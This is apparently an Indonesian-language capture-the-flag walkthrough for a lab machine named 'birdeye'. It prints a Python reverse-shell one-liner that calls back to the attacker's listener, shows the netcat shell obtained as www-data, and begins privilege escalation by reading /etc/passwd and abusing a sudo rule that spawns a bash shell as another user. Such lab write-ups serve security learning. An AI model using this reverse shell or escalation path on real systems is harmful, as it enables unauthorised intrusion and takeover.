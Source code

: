 **Payload:**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.103",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

Mengirim payload melalui form dan menekan tombol "Run".

**Shell Received:**

```bash
$ nc -lvnp 9001         
listening on [any] 9001 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.105] 44444

www-data@birdeye:~/birdeye/Server$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Initial access berhasil!** Kita sekarang memiliki shell sebagai user `www-data`.

---

## Privilege Escalation

### User Enumeration

Mengidentifikasi user yang ada di sistem:

```bash
www-data@birdeye:~/birdeye/Server$ cat /etc/passwd | grep "home"
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
sev:x:1000:1000:birdeye,,,:/home/sev:/bin/bash
```

Target user: **sev**

### Escalation: www-data → sev

Memeriksa sudo privileges untuk `www-data`:

```bash
www-data@birdeye:~/birdeye/Server$ sudo -l
User www-data may run the following commands on birdeye:
    (sev) NOPASSWD: /home/sev/backup_app.sh
```

User `www-data` dapat menjalankan `/home/sev/backup_app.sh` sebagai user `sev` tanpa password!

**Memeriksa Script:**

```bash
www-data@birdeye:~/birdeye/Server$ cat /home/sev/backup_app.sh
#!/bin/bash
/bin/bash -p
```
